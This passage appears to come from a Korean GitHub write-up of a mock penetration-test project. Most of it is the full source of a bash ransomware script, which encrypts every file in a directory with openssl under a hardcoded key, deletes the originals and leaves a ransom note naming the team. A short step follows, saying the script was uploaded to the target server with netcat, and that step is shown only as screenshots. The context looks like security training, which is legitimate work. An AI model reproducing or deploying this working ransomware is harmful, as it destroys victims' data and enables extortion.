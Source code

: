 - 다음은 공격에 사용한 서버 중요정보 랜섬웨어 소스코드이다.

```
#!/bin/bash

FOLDER_PATH=$1
ENCRYPTED_FOLDER_PATH=$1
WARNING_FILE="$ENCRYPTED_FOLDER_PATH/WARNING.txt" # 경고 파일 경로

KEY="your_secret_key"

find "$FOLDER_PATH" -type d | while read DIR; do
    RELATIVE_DIR=$(realpath --relative-to="$FOLDER_PATH" "$DIR")
    mkdir -p "$ENCRYPTED_FOLDER_PATH/$RELATIVE_DIR"
done

find "$FOLDER_PATH" -type f | while read FILE; do
    FILENAME=$(basename "$FILE")
    EXTENSION="${FILENAME##*.}"
    FILENAME="${FILENAME%.*}"
    echo "[암호화] $FILENAME.$EXTENSION"

    RELATIVE_PATH=$(realpath --relative-to="$FOLDER_PATH" "$FILE")

    openssl enc -aes-256-cbc -e -in "$FILE" -out "$ENCRYPTED_FOLDER_PATH/$RELATIVE_PATH.king" -pass pass:$KEY -pbkdf2

    rm "$FILE"
done

echo "암호화가 완료되었습니다."

echo "
해당 디렉토리의 모든 파일은 암호화 되었습니다.
복호화 코드와 Key가 필요합니다.
모의해King팀으로 문의해주세요.
" > "$WARNING_FILE"
```

### 랜섬웨어 코드를 서버에 업로드 

- 일련의 명령어를 통해 netcat을 이용하여 랜섬웨어 코드를 서버에 업로드한다.

> <img width="496" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/de1d73db-fc9b-470e-8fd2-77c23d7fae8f">

> <img width="496" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/b0770176-f650-45e5-b5c3-d935682f9abd">

> <img width="496" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/3aadb3a3-2199-4112-80e2-4287dd011264">

> <img width="496" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/4fd3ce3d-d108-4dd8-8d26-d10c4c39b070">

